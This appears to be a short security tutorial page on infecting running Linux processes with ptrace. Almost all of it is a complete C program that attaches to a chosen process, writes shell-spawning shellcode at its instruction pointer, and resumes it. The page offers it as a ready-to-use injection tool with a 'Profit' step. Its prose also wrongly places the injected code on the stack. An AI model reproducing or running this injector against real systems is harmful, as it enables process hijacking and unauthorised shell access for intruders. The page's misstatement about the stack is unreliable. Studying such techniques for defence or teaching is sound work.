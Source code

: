 # Infecting Running Processes

Ptrace is a system call which can be used to debug/modify another process. We need specific privileges to run ptrace though. we can use ptrace to exploit a running process.&#x20;

the entire process can be broken down as such:

1. Attach to the a current running process by gathering its PID.
2. Send a SIGSTOP to the program to halt it's execution
3. Dump its registers (specifically rip/eip)
4. Write your code to the stack where rip is pointing to.
5. Send a SIGCONT to the program to return control.
6. Profit.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 32

// Spawn Shell
unsigned char *shellcode =
	"\x48\x31\xc0\x48\x89\xc2\x48\x89"
	"\xc6\x48\x8d\x3d\x04\x00\x00\x00"
	"\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
	"\x2f\x73\x68\x00\xcc\x90\x90\x90";

int inject_data (pid_t pid, unsigned char *src, void *dst, int len) {

	int	i;
	uint32_t *s = 	(uint32_t *) src;
	uint32_t *d =	(uint32_t *) dst;

	for(i=0; i<len; i+=4, s++, d++) {
		if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0) {
			perror("ptrace(POKETEXT):");
			return -1;
		}
	}

	return 0;
}

int main (int argc, char *argv[]) {

	pid_t	target;
	struct 	user_regs_struct	regs;
	int		syscall;
	long	dst;

	if (argc != 2) {
		fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
		exit(1);
	}

	target = atoi(argv[1]);
	printf("+ Tracing process %d\n", target);

	if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0) {
		perror("ptrace(ATTACH):");
		exit(1);
	}

	printf("+ Waiting for process...\n");
	wait(NULL);

	printf("+ Getting Registers\n");
	if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0) {
		perror ("ptrace(GETREGS):");
		exit(1);
	}

	printf("+ Injecting shellcode at %p\n", (void*)regs.rip);
	inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);
	regs.rip += 2;
	printf("+ Setting instruction pointer to %p\n", (void*)regs.rip);
	if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0) {
		perror("ptrace(GETREGS):");
		exit(1);
	}

	printf("+ Run it!\n");
	if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0) {
		perror("ptrace(DETACH):");
		exit(1);
	}

	return 0;
}
```
